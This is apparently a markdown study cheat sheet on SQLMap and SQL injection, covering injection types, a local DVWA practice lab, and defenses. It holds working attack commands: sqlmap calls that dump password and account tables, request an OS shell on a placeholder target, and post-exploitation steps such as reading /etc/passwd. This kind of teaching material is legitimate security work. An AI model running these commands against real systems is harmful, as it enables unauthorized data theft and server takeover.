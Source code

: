 # SQLMap Cheat Sheet & Notes

## 🛠️ What is SQLMap?

SQLMap is an open-source tool that automates the process of detecting and exploiting SQL injection (SQLi) vulnerabilities in web applications. It can even be used to gain access to the underlying database and operating system.

### 🔍 Features:

- Database fingerprinting
- Fetching database data
- Accessing the underlying file system
- Executing commands on the OS via out-of-band connections

### 🔥 Supported SQLi Types:

- Boolean-Based Blind
- Time-Based Blind
- Error-Based
- UNION Query-Based
- Stacked Queries

---

## 💻 SQLMap Basic Commands

### General Flags

- `--batch`: Accept default answers to all prompts

### Common Use Cases

```bash
sqlmap -u "url?id=1" --batch --banner             # Retrieve DBMS banner
sqlmap -u "url?id=1" --batch --passwords          # Enumerate DBMS user passwords
sqlmap -u "url?id=1" --batch --dbs                # List all databases
sqlmap -u "url?id=1" --batch --tables -D <db>     # List tables in a database
sqlmap -u "url?id=1" --batch --dump -T <table> -D <db>  # Dump table contents
sqlmap -u "url?id=1" --batch --os-shell           # Gain OS shell if possible
sqlmap -u "http://target.com/page.php?id=1" --dump -D users -T accounts -C username,password
```
The -C flag in sqlmap is used to specify one or more specific columns to dump from a table, instead of dumping all columns.

### Example Post-Exploitation Commands:

```bash
pwd
whoami
ls /
cat /etc/passwd
```

---

## ⚔️ What Can a Successful SQLi Do?

- Read sensitive data from the database
- Modify/Insert/Delete database data
- Execute administrative DB operations
- Extract file contents from the DB file system
- Write files to the server
- Execute OS-level commands

---

## 🧠 Categories of SQL Injection

### 1. In-Band (Classical SQLi)

- **Error-Based**: Leverage DB error messages for data extraction
- **Union-Based**: Use UNION operator to extract data from other tables

### 2. Out-Of-Band

- Uses different communication channels (e.g., HTTP, DNS)
- Requires:
  - Vulnerable app and DB
  - Outbound request permission from the DB
  - Sufficient DB privileges

### 3. Inferential (Blind SQLi)

- Data is not directly returned
- Relies on:
  - Boolean conditions
  - Time delays (Time-Based Blind SQLi)

---

## 🧪 Practice with DVWA (Damn Vulnerable Web Application)

### 🐳 Run DVWA in Docker

```bash
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo docker run hello-world
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

### 🧬 SQLMap on DVWA (Low Security Level)

```bash
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --tables

sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --schema --batch

sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --dump -T users --batch

sqlmap --url "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=..." -D dvwa -T users --columns
```

---

## 🛡️ SQL Injection Defense Mechanisms

1. **Input Sanitization**: Remove/escape special characters (`'`, `--`, `;`, etc.)
2. **Prepared Statements**: Use parameterized queries (e.g., `?`, `$1`)
3. **Stored Procedures**: Encapsulate queries in routines
4. **Least Privilege Principle**: Restrict DB user privileges
5. **Web Application Firewall (WAF)**: Use tools like ModSecurity
6. **Allowlist Input Validation**: Validate inputs strictly
7. **Error Handling**: Hide DB error messages
8. **Limit Query Results**: Use `LIMIT` / `TOP` to reduce exposure
9. **Regular Audits**: Perform code review, pen-testing, and use tools like SQLMap, Burp Suite
10. **Use ORM**: Frameworks like SQLAlchemy or Hibernate

---

## 📚 Reference Materials

- [SQL Injection Cheat Sheet (GitHub)](https://github.com/AdmiralGaust/SQL-Injection-cheat-sheet)
- [Netsparker SQLi Guide](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [UNION Attacks (PortSwigger)](https://portswigger.net/web-security/sql-injection/union-attacks)
- [Database Info Gathering (PortSwigger)](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [Blind Injections (PortSwigger)](https://portswigger.net/web-security/sql-injection/blind)
- [SQL Zoo](https://sqlzoo.net/)
- [Juice Shop SQLi Hints](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/part2/injection.html)

---

**DLL (Dynamic Link Library)**: A Windows format for reusable functions shared across applications.

---
